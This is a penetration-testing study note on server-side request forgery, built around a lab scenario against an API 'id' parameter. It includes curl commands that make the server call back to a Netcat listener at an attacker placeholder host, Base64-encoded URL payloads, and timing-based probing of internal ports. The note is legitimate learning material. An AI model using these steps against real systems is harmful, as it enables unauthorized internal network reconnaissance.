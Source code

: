 # Server-Side Request Forgery (SSRF)
Refer to [[/Offensive Security Techniques/Web Exploitation Techniques/SSRF - Server Side Request Forgery/]] for more in-depth attacks.

Allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data.

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources.

We should fuzz **every** identified parameter, even if it does not seem tasked with fetching remote resources.
## Example Scenario
Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.
```shell
curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```
- The API is expecting a parameter called _id_. 

Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.
```shell
nc -nlvp 4444
```

Then, let us specify `http://<ATTACKER-IP-LISTENER>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.
```shell
curl "http://<TARGET IP>:3000/api/userinfo?id=http://<ATTACKER-IP-LISTENER>:<LISTENER PORT>"
```
- We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.
```shell
echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
```

```shell
curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

As time allows, try to provide APIs with input in various formats/encodings.
## Leveraging the SSRF vulnerability to identify different ports
We can leverage the SSRF vulnerability to identify that port 3002 (in this example) is listening locally on the web server. 

First we need to Base64-encode http://127.0.0.1:3002 so we can use it as the value for the id URL parameter:
```shell
echo "http://127.0.0.1:3002" | tr -d '\n' | base64
```

Then we can use `cURL` to check the total time that it would take for the request that specifies port 3002:
```shell
curl -s -w 'Total Time: %{time_total}s\n' "http://STMIP:3000/api/userinfo?id=aHR0cDovLzEyNy4wLjAuMTozMDAy"
```
- Since it takes considerably large amount of time (18 seconds), the port must be open and listening as some communications/processes are taking place. 

We can then be assured by trying to send a request for a port that is probably not open, for example, port 8888:
```shell
echo "http://127.0.0.1:8888" | tr -d '\n' | base64
```

Then, using `cURL` shows that the requests takes only 3 seconds, thus it must be closed due to how short the total time of the request is:
```shell
curl -s -w 'Total Time: %{time_total}s\n' "http://STMIP:3000/api/userinfo?id=aHR0cDovLzEyNy4wLjAuMTo4ODg4"
```
